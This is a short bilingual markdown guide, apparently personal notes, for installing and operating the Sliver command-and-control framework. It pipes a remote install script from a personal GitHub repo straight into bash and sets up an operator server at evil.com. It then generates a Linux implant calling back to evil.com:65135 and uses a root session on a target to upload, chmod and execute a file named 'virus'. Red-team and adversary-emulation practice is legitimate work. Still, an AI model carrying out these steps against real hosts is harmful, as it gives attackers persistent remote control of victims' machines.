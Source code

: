 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Init

### 2.1. Server

开机自启

```
┌──(nemo@debian)-[~]
└─$ sudo systemctl enable --now sliver-server.service
```

开放端口用于建立通信

```
┌──(nemo@debian)-[~]
└─$ sudo ufw allow 31337
```

生成配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-server operator -n nemo -l evil.com -p 31337 -s ~/.sliver
```

开启多端控制

```
[server] sliver > multiplayer
```

### 2.2. Client

导入 Client 配置文件

```
┌──(nemo@debian)-[~]
└─$ sliver-client import ~/.sliver/nemo_evil.com.cfg
```

## 3. Usage

运行 Client

```
┌──(nemo@debian)-[~]
└─$ sliver-client
```

退出 Client

```
sliver > exit
```

查看已加入的控制器

```
[server] sliver > operators
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./virus ./path
```

添加执行权限

```
[server] sliver (implant) > chmod ./virus 755
```

执行程序

```
[server] sliver (implant) > execute ./virus
```

---

References

- [sliver](https://github.com/BishopFox/sliver)

